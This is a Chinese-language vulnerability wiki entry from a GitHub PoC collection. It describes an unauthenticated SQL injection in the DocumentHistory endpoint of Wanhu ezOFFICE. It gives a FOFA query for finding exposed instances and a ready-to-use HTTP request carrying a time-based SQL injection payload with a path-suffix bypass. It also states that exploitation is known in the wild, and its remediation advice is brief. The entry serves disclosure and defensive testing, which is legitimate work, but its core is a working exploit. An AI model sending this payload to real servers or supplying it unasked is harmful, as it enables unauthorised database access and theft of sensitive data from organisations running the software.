

#  万户 ezOFFICE DocumentHistory SQL 注入漏洞

# 漏洞描述

万户 ezOFFICE DocumentHistory处存在 SQL 注入漏洞，未授权的攻击者可进行sql语句查询导致敏感信息泄露。

# 影响版本

万户 ezOFFICE

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="万户网络-ezOFFICE"

POC/EXP：

```
GET /defaultroot/public/iSignatureHTML.jsp/DocumentHistory.jsp;.js?DocumentID=1%27%20WAITFOR%20DELAY%20%270:0:8%27-- HTTP/1.1
Host: 127.0.0.1
```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
